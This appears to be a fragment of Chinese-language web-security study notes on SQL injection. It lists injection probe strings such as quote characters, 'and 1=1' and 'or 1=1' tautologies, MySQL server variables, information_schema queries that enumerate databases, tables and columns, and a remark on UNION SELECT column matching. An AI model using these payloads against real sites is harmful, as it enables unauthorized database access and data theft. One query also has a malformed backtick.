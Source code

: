    '   "   \   2-1    '#    "#   ')#   ")#             #=23%

![image-20210706160122981](websafe/image-20210706160122981.png)

```mysql
\\注入点
'"\
1/1
1/0
and 1=1
" and "1"="1
and 1=2
or 1=1
'and '1' = '1
+ ^ - * % /
~ ! @
\\常用常量
@@version
@@servername
@@language
@@spid
```



```mysql
select schema_name from information_schema.SCHEMATA;获取所有库

select table_name from information_schema.`TABLES` where TABLE_schema = 'databasename';

select column_name from information_schema.`columns where table_schema = 'db_bbs' and table_name ='table_name';
```

union select 联合查询，前后列数一致 ,可使用其他函数代替，（）中可添加新的sql语句

user(),database(),version()
